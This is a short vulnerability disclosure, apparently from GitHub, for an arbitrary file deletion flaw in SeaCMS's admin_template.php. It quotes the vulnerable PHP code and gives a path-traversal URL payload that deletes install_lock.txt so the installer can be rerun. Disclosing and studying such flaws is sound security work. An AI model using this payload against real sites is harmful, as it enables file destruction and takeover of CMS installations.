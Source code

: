 # Seacms admin_template.php has any file deletion

The code vulnerability is located on line 114 of admin_template.php and does not verify the suffix of deleted files, resulting in the deletion of arbitrary files

```php
elseif($action=='del')
{
	if($filedir == '')
	{
		ShowMsg('未指定要删除的文件或文件名不合法', '-1');
		exit();
	}
	if(substr(strtolower($filedir),0,11)!=$dirTemplate){
		ShowMsg("只允许删除templets目录内的文件！","admin_template.php");
		exit;
	}
	$folder=substr($filedir,0,strrpos($filedir,'/'));
	if(!is_dir($folder)){
		ShowMsg("目录不存在！","admin_template.php");
		exit;
	}
	unlink($filedir);
	ShowMsg("操作成功！","admin_template.php?path=".$folder);
	exit;
}
```

Vulnerability recurrence

payload

```
http://127.0.0.1/seacms/sdfhk/admin_template.php?action=del&filedir=../templets/1.html/../../install/install_lock.txt
```

![image-20240401222830025](C:\Users\28162\AppData\Roaming\Typora\typora-user-images\image-20240401222830025.png)

![image-20240401222833887](C:\Users\28162\AppData\Roaming\Typora\typora-user-images\image-20240401222833887.png)

Looking at the file, you can see that install_lock.txt has been deleted, and the installation file has been deleted so that the database can be re-installed.

![image-20240401222918135](C:\Users\28162\AppData\Roaming\Typora\typora-user-images\image-20240401222918135.png)

